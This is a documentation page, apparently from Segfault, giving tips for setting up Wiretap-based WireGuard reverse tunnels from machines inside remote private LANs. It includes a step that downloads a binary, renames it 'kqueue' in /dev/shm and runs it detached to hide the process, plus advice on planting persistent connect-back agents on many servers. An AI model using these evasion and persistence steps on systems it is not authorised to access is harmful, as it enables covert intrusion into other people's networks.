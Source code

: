 ```yaml
---
layout: default
title: Segfault / WireGuard Tricks
description: Segfault WireGuard Reverse Connection tricks.
---
```


<div style="text-align:center">
    <h1>WireGuard Reverse Connection</h1>
    <p>Hacks, Tips, Tricks and other shenanigans</p>
</div>

## Misc Tips

1. Use `curl rpc/net/help` for some help
1. `-d name=all` works with all commands
1. `curl rpc/net/show` may show that the interface is up but that no data has been transferred. It is likely that you have not started `wiretap` on the Exit Node yet or that Wiretap can not reach your Root Server.
1. It is only possible to have 1 Interface up at a time. (if you like us to add multi-interface support then please contact us.)

## Hide the Wiretap process

```shell
cd /dev/shm
curl -fsSL https://github.com/sandialabs/wiretap/releases/download/v0.2.1/wiretap_0.2.1_linux_amd64.tar.gz | tar xfz - -O >kqueue
PATH=.:$PATH
setsid kqueue server --private ...
```

## Deploy Wiretap first

It is possible to install [Wiretap](https://github.com/sandialabs/wiretap/releases/tag/v0.2.1) on many many servers and only activate the Interface on your [Root Server](../) if and when needed. The Root Server does not need to know about the Wiretap installations until you like to access the remote private LAN from your [Root Server](../).

A deployed Wiretap will connect back to your [Root Server](../) indefinitely and until it is uninstalled from the remote private LAN.

__Step #1: Allocate a UDP port on your Root Server__

```shell
curl http://rpc/net/init
```

Take note of the *port*. The UDP Port is now associated with your [Root Server](../). Ignore the rest.

__Step #2: Generate Keys on the Exit Node__

The Exit Node is any Linux, Windows or OSX system inside the remote private LAN.

```shell
wiretap configure -e XX.segfault.net:<port> # Replace 'XX' with the segfault region you are using
```

{:refdef: style="text-align: center;"}
![login screen](wt-nosf2.png){:height="80%" width="80%"}
{: refdef}

Take note of the *PrivateKey* and *PublicKey*.

Start Wiretap as described in the output (green):

```shell
wiretap serve --private <...> --public <...> --endpoint XX.segfault.net:<port>
```

Repeat this step on as many Exit Nodes as you like and keep note of every new PrivateKey/PublicKey for each Exit Node.

__Step #3: Access the Network__

On your [Root Server](../):

```
curl http://rpc/net/up -d name=PrivLAN31337 -d private=<PrivateKey> -d exit_public=<PublicKey>
```

## Contact

{% include contact-details.md %}
